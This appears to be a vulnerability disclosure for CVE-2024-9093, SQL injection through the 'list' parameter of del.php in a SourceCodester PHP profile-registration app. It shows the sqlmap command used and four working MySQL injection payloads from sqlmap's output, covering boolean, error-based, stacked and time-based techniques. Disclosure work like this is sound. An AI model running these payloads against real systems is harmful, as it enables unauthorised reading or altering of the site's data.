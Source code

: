 ```yaml
---
title: CVE-2024-9093
draft: false
tags:
  - cve
  - sqli
---
```

# SQL Injection vulnerability was discovered from Sourcecodester Profile Registration without Reload/Refresh 1.0 (del.php)
## CVE-2024-9093

> A vulnerability classified as critical has been found in SourceCodester Profile Registration without Reload Refresh 1.0. This affects an unknown function of the file del.php of the component GET Parameter Handler. The manipulation of the argument list with an unknown input leads to a sql injection vulnerability. CWE is classifying the issue as CWE-89. The product constructs all or part of an SQL command using externally-influenced input from an upstream component, but it does not neutralize or incorrectly neutralizes special elements that could modify the intended SQL command when it is sent to a downstream component. This is going to have an impact on confidentiality, integrity, and availability.

**Affected Project**: Profile Registration without Reload/Refresh 1.0

**Official Website**: https://www.sourcecodester.com/php/17587/profile-registration-without-reloadrefresh-using-ajax-php-and-mysql-source-code.html

**Version**: 1.0

**Related Code file**: del.php

**Injection parameter**: GET parameter 'list' is vulnerable.

## Demonstration

Below is Profile Registration without Reload/Refresh 1.0:

![index](https://github.com/user-attachments/assets/7475fe84-3943-4b50-9929-625bc27582cf)

Below is admin page. We can see there is a delete feature to it:

![admin-php](https://github.com/user-attachments/assets/babd4ca6-685a-4f73-9554-5fe801da89f9)

Let's try deleting one of the entry:

![Screenshot from 2024-09-22 15-17-22](https://github.com/user-attachments/assets/b61c28b2-27dd-4e83-8fd8-a8d00c4eadab)


We will intercept the delete (del.php) traffic using Burp Suite:

![Screenshot from 2024-09-22 15-18-26](https://github.com/user-attachments/assets/19d5ceec-899b-47d9-a123-126a1796db19)

After saving the intercepted request as txt file, we will run sqlmap against it: `sqlmap -r del.req --batch`

![image](https://github.com/user-attachments/assets/1ea8910d-7617-4454-9925-3c0b443e4328)

sqlmap identifies GET parameter 'list' as vulnerable. Below is the payload used:

---
Parameter: list (GET)
    Type: boolean-based blind
    Title: MySQL AND boolean-based blind - WHERE, HAVING, ORDER BY or GROUP BY clause (EXTRACTVALUE)
    Payload: list=1' AND EXTRACTVALUE(6463,CASE WHEN (6463=6463) THEN 6463 ELSE 0x3A END)-- jUPW

    Type: error-based
    Title: MySQL >= 5.6 AND error-based - WHERE, HAVING, ORDER BY or GROUP BY clause (GTID_SUBSET)
    Payload: list=1' AND GTID_SUBSET(CONCAT(0x7176786271,(SELECT (ELT(3483=3483,1))),0x71627a6271),3483)-- xwxz

    Type: stacked queries
    Title: MySQL >= 5.0.12 stacked queries (comment)
    Payload: list=1';SELECT SLEEP(5)#

    Type: time-based blind
    Title: MySQL >= 5.0.12 AND time-based blind (query SLEEP)
    Payload: list=1' AND (SELECT 7323 FROM (SELECT(SLEEP(5)))ELsa)-- jKqa
---


